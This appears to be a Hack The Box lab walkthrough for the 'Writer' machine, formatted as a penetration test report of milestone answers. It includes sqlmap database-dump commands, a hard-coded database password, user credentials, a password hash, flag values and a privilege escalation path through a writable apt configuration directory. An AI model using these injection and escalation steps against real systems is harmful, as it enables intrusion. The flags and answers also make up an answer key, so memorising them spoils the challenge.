# Security Assessment Report: Writer


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Writer** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Writer |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on Writer?

* **Observed Evidence / Output:** 4



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What is the relative path on the webserver to the admin login form?

* **Observed Evidence / Output:** /administrative



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


**The administrative dashboard shows "page likes" from what social media site?**

* **Observed Evidence / Output:** facebook



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the password hash of [admin@writer.htb](mailto:admin@writer.htb)?

* **Observed Evidence / Output:** 118e48794631a9612484ca8b55f622d0

```jsx
sqlmap -r req --batch --dump
```



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user on Writer has the UID of 1000?

* **Observed Evidence / Output:** kyle

```jsx
sqlmap -r req --privileges
```



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What port is the writer2_project site listening on (only on localhost)?

* **Observed Evidence / Output:** /var/www/writer.htb/writer.wsgi



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


**There is an SSRF vulnerability in the main site. What must the URL end with to be processed?**

* **Observed Evidence / Output:** .jpg


> **Assessment Query / Target Milestone:** What is the kyle user's password for SMB on Writer?

* **Observed Evidence / Output:** ToughPasswordToCrack



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the name of the Python file on the writer2_project share that is editable by kyle?

* **Observed Evidence / Output:** [views.py](http://views.py/)



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the website running as?

* **Observed Evidence / Output:** www-data



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.


connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')


> **Assessment Query / Target Milestone:** What is the kyle user's password for Writer?

* **Observed Evidence / Output:** marcoantonio



* **Assessment Step 15:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 16:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 17:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the kyle user's home directory.**

* **Observed Evidence / Output:** b71ab09c409142c4227c89665a84255a



* **Assessment Step 18:** Command execution output, exploit delivery proof, or auxiliary evidence.


**There are two files in the filter group. One is named `disclaimer`. What is the full path to the other?**

* **Observed Evidence / Output:** /var/spool/filter



* **Assessment Step 19:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the `disclaimer` file executed as?

* **Observed Evidence / Output:** john



* **Assessment Step 20:** Command execution output, exploit delivery proof, or auxiliary evidence.


* **Assessment Step 21:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 22:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What group is the john user in?

* **Observed Evidence / Output:** management



* **Assessment Step 23:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path of the directory that is writable by the management group?

* **Observed Evidence / Output:** /etc/apt/apt.conf.d



* **Assessment Step 24:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** d263b345667caec6cec7d572544434c2


